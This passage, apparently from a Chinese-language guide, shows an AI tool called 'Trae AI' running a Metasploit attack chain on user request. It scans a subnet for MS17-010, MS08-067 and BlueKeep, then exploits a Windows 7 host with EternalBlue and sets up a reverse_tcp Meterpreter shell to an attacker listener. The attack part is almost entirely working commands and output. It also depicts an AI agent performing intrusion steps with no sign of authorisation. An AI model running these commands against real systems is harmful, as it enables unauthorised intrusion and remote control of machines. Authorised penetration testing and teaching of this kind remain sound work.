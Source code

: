 **發現結果：**
```
[+] 192.168.1.10 - Windows Server 2016 (SMB 3.1.1)
[+] 192.168.1.20 - Windows 10 Pro (SMB 3.0)
[+] 192.168.1.30 - Windows Server 2012 R2 (SMB 3.0)
[+] 192.168.1.40 - Windows 7 SP1 (SMB 2.1)
```

### 階段 2：漏洞掃描和評估

**用戶提問：**
```
對發現的主機進行漏洞掃描
```

**Trae AI 執行流程：**
```
# 1. SMB 漏洞掃描
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS 192.168.1.0/24
run

# 2. 檢查其他常見漏洞
use auxiliary/scanner/smb/smb_ms08_067
set RHOSTS 192.168.1.0/24
run

# 3. RDP 漏洞掃描
use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
set RHOSTS 192.168.1.0/24
run
```

**漏洞發現：**
```
[+] 192.168.1.40 - Host is likely VULNERABLE to MS17-010!
[+] 192.168.1.30 - Host is likely VULNERABLE to MS08-067!
```

### 階段 3：初始訪問

**用戶提問：**
```
利用發現的漏洞獲取初始訪問權限
```

**Trae AI 執行流程：**
```
# 1. 利用 MS17-010 攻擊 Windows 7 主機
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.40
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 4444
exploit

# 2. 驗證訪問權限
sessions -i 1
sysinfo
getuid
```
